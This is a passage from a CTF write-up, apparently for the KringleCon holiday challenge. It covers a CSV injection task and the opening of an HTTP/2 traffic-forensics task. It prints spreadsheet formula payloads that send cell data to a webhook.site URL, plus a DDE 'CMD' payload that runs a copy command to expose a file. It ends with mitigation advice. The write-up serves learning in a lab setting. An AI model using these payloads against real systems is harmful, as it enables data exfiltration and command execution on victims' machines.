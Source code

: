 Since we can't seem to get any text-related exploits, and CSV stands out as an odd way of submitting work experience, let's try to [exploit the CSV using the HYPERLINK function](https://payatu.com/csv-injection-basic-to-exploit/). Since I'm too cheap to buy a VPS, and too lazy to allow traffic through my firewall, I'm going to use [a free online webhook](https://webhook.site/) to recieve my exfiltrated data. Using the two methods I am aware of to directly exfiltrate data, I crafted the following payload:
```
=HYPERLINK("https://webhook.site/<id>?data="&A1:A10&B1:B10&C1:C10, "Please click here!")
=IMPORTXML(CONCAT(""https://webhook.site/<id>?data="", CONCATENATE(A1:E1)), ""//a"")
```

After waiting 10 minutes, it seemed to have not worked, which is unfortunate. Since there is a web server running, though, there is at least one publicly accessable directory that I can copy my target file to. My first guess was the default for Windows IIS, _C:\inetpub\wwwroot_. When I checked the initial result, however, the 404 Page states the following:
>Publicly accessible file served from: C:\careerportal\resources\public\ not found......
>Try: https://careers.kringlecastle.com/public/'file name you are looking for'

Nice of their 404 Page to disclose a publically available directory. Using the following payload, after waiting a couple minutes, I browsed to "https://careers.kringlecastle.com/public/test.docx" and downloaded the target file.
```
=CMD|'/C copy C:\\candidate_evaluation.docx C:\\careerportal\\resources\\public\\test.docx'!A0
```

Krampus, who some might recognize as Santa's evil counterpart, is our applicant that was linked to the terrorist organization [Fancy Beaver](https://en.wikipedia.org/wiki/Fancy_Bear).

Having helped the elves identify the organization seems to have brought Hans' plot to a screeching halt.

CSV injection is a powerful and common vulnerability. As we saw, it can be used to directly exfiltrate data from a spreadsheet, or execute arbitrary commands. To mitigate it, as with most injection vulnerabilities, requires input sanitation. There are four key characters, +,-,+,@, that, when seen, should be prefixed with one single quote ('), as doing so prevents Excel and other spreadsheet software from interpreting that cell as a formula. Additionally, registry keys should be modified in accordance with [Microsoft Security Advisory 4053440](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) to prevent auto-execution of Dynamic Data Exchange links. The final piece of the puzzle is, as always, user education, as, with the previous two controls in place, the user should, at the very least, be prompted to confirm that they would like to execute the DDE object. A properly educated user will know that such requests are not normal for Microsoft Office documents, decline the prompt, and at the very least delete the offending document from their computer.

[Link to Relevant Kringlecon Talk](http://www.youtube.com/watch?v=Z3qpcKVv2Bg)

### 8) Network Traffic Forensics
>Santa has introduced a web-based packet capture and analysis tool at [https://packalyzer.kringlecastle.com](https://packalyzer.kringlecastle.com) to support the elves and ton bheir information security work. Using the system, access and decrypt HTTP/2 network activity. What is the name of the song described in the document sent from Holly Evergreen to Alabaster Snowball?

This challenge took me a full week to figure out. I dove pretty deep, but after 3 full evenings, I took a step back and did challenge 9, then came back to it. Here is my *sucessful* method.

Upon browsing to the web page, we're greeted with a fairly standard login page. After attempting basic SQL injection with no luck, I clicked the link to register a new account. Again, failing to inject the input, I registered an arbitrary username. In my case, "administrator", hoping to get lucky and be able to use the registration page to change the password for a legitimate admin. That done, I logged into the application using my new account.
